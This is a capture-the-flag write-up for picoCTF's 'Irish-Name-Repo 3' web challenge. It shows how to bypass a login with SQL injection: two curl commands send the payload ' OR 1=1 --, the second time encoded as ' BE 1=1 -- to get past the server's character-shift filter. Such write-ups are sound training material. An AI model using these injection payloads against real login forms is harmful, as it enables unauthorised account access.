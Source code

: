 # picoCTF – Irish-Name-Repo 3 

* **Category:** Web
* **Points:** 400

## Challenge

> Try to see if you can login as admin!

## Solution

Like other Irish Name repo challenges, this one also is allowing the debug. I fired a curl request to see how the SQL query is constructed at the backend.

```
curl "<URL>/login.php" -d "password=' OR 1=1 --&debug=1"

```
The response returned a query with 'OR' replaced. I realized that it's shift ciphered. After few trails, identified the key and replaced the characters based on it.

```
curl "<URL>/login.php" -d "password=' BE 1=1 --&debug=1"
```


```
picoCTF{3v3n_m0r3_SQL_xxxx}
```
